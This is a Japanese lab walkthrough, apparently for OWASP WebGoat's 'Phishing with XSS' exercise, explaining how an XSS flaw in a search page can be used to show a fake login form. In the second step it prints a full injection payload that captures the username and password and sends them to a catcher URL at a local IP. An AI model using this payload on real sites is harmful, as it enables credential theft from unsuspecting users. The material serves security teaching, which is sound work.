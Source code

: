 ## XSS脆弱性を用いたフィッシング補助
### 学習目標
XSS脆弱性があるWEBページが、どのようにして｢フィッシング攻撃｣として利用されるのか、またログからの検知方法を学習する。
### シナリオ
XSS脆弱性がある｢検索サービスを提供するWEBサイト"target.server"｣があるとする。このtarget.serverは認証を必要とする。target.serverの検索ページで検索フィールドに｢test｣を入力し｢SUBMIT｣ボタンを押した場合、WEBアプリケーションサーバに以下のようなリクエストを送信する。   

ie) http://target.server/searchform?Input=test&SUBMIT=Search

被害者が誤まってこのようなフィッシングページで｢検索文字列｣と共に｢スクリプトを含む有害なコード｣がtarget.serverに送信されると、被害者のブラウザにtarget.serverサイトから｢検索結果｣と認証のためにユーザ名とパスワードの入力を促すページが表示される。被害者は、誤まったtarget.serverからの要求と思わずにユーザ名とパスワードを入力してしまうと、攻撃者に被害者の個人情報が漏れてしまう。
### WebGoatの学習
｢フィッシング用ページ｣と｢情報収集サーバ｣を用意する代わりに、WebGoat｢Phishing with XSS｣に｢攻撃コード｣を注入し、認証を促すページを表示させる。ユーザが認証情報を入力すると、ユーザ名とパスワードがポップアップ表示される。  

<img src="https://github.com/CyExc/CyExc/blob/master/2017/WebGoat/images/flow.png" title="学習の流れ">

### Steps
1. ｢Phishing with XSS｣ページを開き、｢Search｣フィルドに作成した｢有害スクリプトを含む認証ページ｣を入力し、「Search｣ボタンをクリックする。   
  
<img src="https://github.com/CyExc/CyExc/blob/master/2017/WebGoat/images/step1.png" title="Step 1">   
  
2. 表示された｢認証ページ｣にユーザIDとパスワードを入力し、送信する。   
ex)
``</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://192.168.33.10/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + "Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>``   
    